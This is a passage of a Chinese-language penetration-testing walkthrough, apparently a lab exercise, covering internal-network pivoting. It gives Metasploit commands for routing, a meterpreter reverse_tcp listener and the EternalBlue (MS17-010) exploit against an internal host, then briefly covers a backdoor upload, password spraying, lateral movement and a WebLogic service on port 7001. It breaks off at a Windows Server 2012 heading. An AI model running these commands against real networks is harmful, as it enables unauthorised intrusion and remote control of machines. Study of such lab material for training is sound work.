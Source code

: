   
  
建立路由  
  
<font style="color:rgb(51, 51, 51);">run autoroute -p //查看当前路由表</font>  
  
<font style="color:rgb(51, 51, 51);">run post/multi/manage/autoroute //添加当前路由表</font>  
  
  
注意：因为这是内网网段的机器，所以我们只是单纯的区执行这个永恒之蓝漏洞是完全不行的，我们得先设置监听器，到 第一台的主机  
  
  
use exploit/multi/handler  
  
<font style="color:rgb(51, 51, 51);">set payload windows/x64/meterpreter/reverse_tcp </font>  
  
set lhost 192.168.2.134  
  
set lport 4548  
  
![1747054179_6821ee631fa060103552d.png!small?1747054180633](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXxJkMlILorsm1eYPLL5nRiakwST0l4QKe4pomVpEnQ9aEttkfNrsqPFA/640?wx_fmt=jpeg&from=appmsg "")  
  
<font style="color:rgb(51, 51, 51);">use exploit/windows/smb/ms17_010_eternalblue</font>  
  
<font style="color:rgb(51, 51, 51);">set payload windows/x64/meterpreter/reverse_tcp </font>  
  
set rhost 192.168.2.129  
  
set rhosts 192.168.2.129  
  
set lhost 192.138.2.134  
  
set lport 4548  
  
上传后门，然后再转发上线  
  
成功上线  
### Windows10  
  
### 密码喷射  
  
再administrator  
  
![1747054216_6821ee88540791d035f0b.png!small?1747054217329](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXna56jbnpD9G2rAoYBazYBlxluxO6EepzfmjWic348EKDX2N8Nr2BsDw/640?wx_fmt=jpeg&from=appmsg "")  
  
![1747054223_6821ee8fe3406b58f2904.png!small?1747054223767](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXhAicp3CM12KHib3LhkJNibVgHFXeqYichteektRibQcibJDkYVQbkbUcianqA/640?wx_fmt=jpeg&from=appmsg "")  
  
密码横向移动![1747054235_6821ee9bd245202dd5bbb.png!small?1747054236714](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX1CicBJ7pg6FQ26qBlicGopa19k33IOvXltic1McZviagjwTdTDH5GSZ7gA/640?wx_fmt=jpeg&from=appmsg "")  
  
### windows server R2  
  
![1747054249_6821eea9b1e0a94cdaf6a.png!small?1747054249763](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXV4ZPDsS2YlcWYnQMhM8CMZXA4zejgMl8zAEbTTEpH8MCxf33XibbXRg/640?wx_fmt=jpeg&from=appmsg "")  
  
发现7001端口，是weblogic，所以建立代理，访问  
  
![1747054264_6821eeb8b090cdfe4ca72.png!small?1747054264745](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXaaMVMtbQP5UF6WwZWAXMITFibtj8ZZAWCtt8sIuticvOnLcNLKLE42sw/640?wx_fmt=jpeg&from=appmsg "")  
![1747054274_6821eec2725be3b93b064.png!small?1747054274494](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX3DwvSibx1Dx7qVOSVKoXCf5icUXJQrHWMkCEEQjRPHhcDrk9VhVCTr5g/640?wx_fmt=jpeg&from=appmsg "")  
### windows server 2012  
  
